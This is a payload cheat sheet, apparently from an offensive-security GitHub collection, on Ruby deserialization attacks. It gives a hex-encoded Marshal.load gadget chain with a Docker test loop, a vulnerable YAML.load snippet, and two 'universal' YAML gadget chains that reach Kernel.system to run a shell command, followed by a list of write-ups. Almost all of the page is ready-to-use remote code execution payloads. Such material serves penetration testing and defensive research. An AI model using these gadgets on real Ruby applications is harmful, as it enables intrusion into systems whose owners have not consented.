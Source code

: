 # Ruby Deserialization

## Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

Vulnerable code
```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:
```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```


## References

- [RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN - elttam, Luke Jahnke](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - @_staaldraad ](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Online access to Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab](https://pentesterlab.com/exercises/ruby_ugadget/course)
- [Universal RCE with Ruby YAML.load (versions > 2.7) - @_staaldraad](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
* [Blind Remote Code Execution through YAML Deserialization - 09 JUNE 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

